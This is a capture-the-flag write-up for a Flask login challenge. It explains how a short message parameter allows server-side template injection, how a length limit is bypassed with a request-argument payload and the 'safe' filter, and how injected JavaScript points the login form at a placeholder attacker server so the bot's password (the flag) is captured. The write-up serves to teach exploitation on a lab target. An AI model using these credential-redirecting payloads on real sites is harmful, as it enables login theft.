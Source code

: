 ![image](https://user-images.githubusercontent.com/64314534/234607512-23006716-acb8-4149-86f8-4e0532e85e6d.png)

When we enter the challenge we will find a simple login page with a number of failed logins

<br>

![image](https://user-images.githubusercontent.com/64314534/234608009-f52b5e94-ec1c-4a0d-a5ca-227bbe8f79b5.png)

after trying a simple creds   `admin:admin`

we will got : `wrong username or password` and the number of failed login has been increased .

# Let's review the code  (Flask)
<br>

![image](https://user-images.githubusercontent.com/64314534/234610042-578eb5ff-8b3b-44e3-ac9d-1d04adf110e0.png)

<br>

The code is very simple let's divde it into pieces to explain it 

### First part : 
<br>

![image](https://user-images.githubusercontent.com/64314534/234610860-54a13eeb-b6f7-4960-ae89-0d3a257667a2.png)

<br>

The application import some libraries like Flask , escape and render_template_string (keep in mind that this function is vulnerable to ssti) and then there is an html template which had a variable called fails and also a place for a string 


<br>



### Second part :
<br>

![image](https://user-images.githubusercontent.com/64314534/234611740-25594be1-a173-4e42-9542-c3400257dde4.png)

<br>

The get route of the index is doing the following : 

- get the fails variable which had the number of failed logins 
- check if there is a parameter called message and then check if it's length is equal or greater than 25 and if this it will send the index page with the number of fails
- if the message param's length less than 25 it will pass the message to the escape() function which will filtered it against xss then it will render the template and append the message to it in the place of string (format string) and this will cause an ssti vulnerability
- but since they provide a bot so, we don't need to get RCE or something 

### Third part :
<br>

![image](https://user-images.githubusercontent.com/64314534/234614375-161e31e3-e654-4f5f-a306-184395c48c6f.png)

<br>

this is the login function and it's broken as we can see it's not working, just increasing the number of failed logins

### The bot code 
<br>

![image](https://user-images.githubusercontent.com/64314534/234615117-8b579722-bcf2-4c97-a2ae-1232d95ee3f2.png)


<br>

As we can see from the selected parts the bot logins with the username:admin and the password : flag 
so, we need to get xss to change the form action and get the password which is the flag : D

i opened my burp suite to do some debugging with the ssti 

<br>

![image](https://user-images.githubusercontent.com/64314534/234615966-57a7de01-732b-4ac0-99d3-ee4bf3c92a51.png)

![image](https://user-images.githubusercontent.com/64314534/234616110-df9aa7c2-c4c9-4f59-959e-b00b2ee57e8e.png)


<br>

As you see we can confirm that the message parameter is not vulnerable to Xss but vulnerable to ssti, TBH iam not very good at flask templates but i know there is something called jinja2 filters (flask using jinja2 as a template engine)

Ex : {{thing|filter}}   : {{-123456|abs}} will return 123456 (the absolute value of the number)

after searching in jinja2 filters i found that `safe` filter will prevent the element from being escaped 
<br>

![image](https://user-images.githubusercontent.com/64314534/234619129-867a7228-a749-4967-84bf-49bc06ec30ac.png)

![image](https://user-images.githubusercontent.com/64314534/234619458-93d34009-d11c-4c68-aa8f-a32d9f019463.png)

Still we had the length problem so we can refer to another parameter to bypass the length by this payload : {{request.args.r}} 

- Final payload : {{request.args.r|safe}}

<br>

![image](https://user-images.githubusercontent.com/64314534/234620142-6198e5f4-22da-42db-8e34-81f5770779b0.png)

<br>
and we now bypassed all filters for this challenge let's see how we can edit the form action to be our server we can use this simple js code 


`<script>document.forms[0].action='https://ourserver'</script>`

<br>
But after i tried it in the browser i got this error in the console : 
<br>

![image](https://user-images.githubusercontent.com/64314534/234620959-5366f456-f7df-4049-b774-f01a1201d425.png)

<br>

Do you know why ?? Because the script is executed before the login form is loaded. so we will make a quick modify to our script :

window.onload =function(){document.forms[0].action="http://our_server"};
<br>

and i got the flag : ) 

<br>

![image](https://user-images.githubusercontent.com/64314534/234622519-3465bb6e-25ba-461b-845f-b3cbb87cbe17.png)


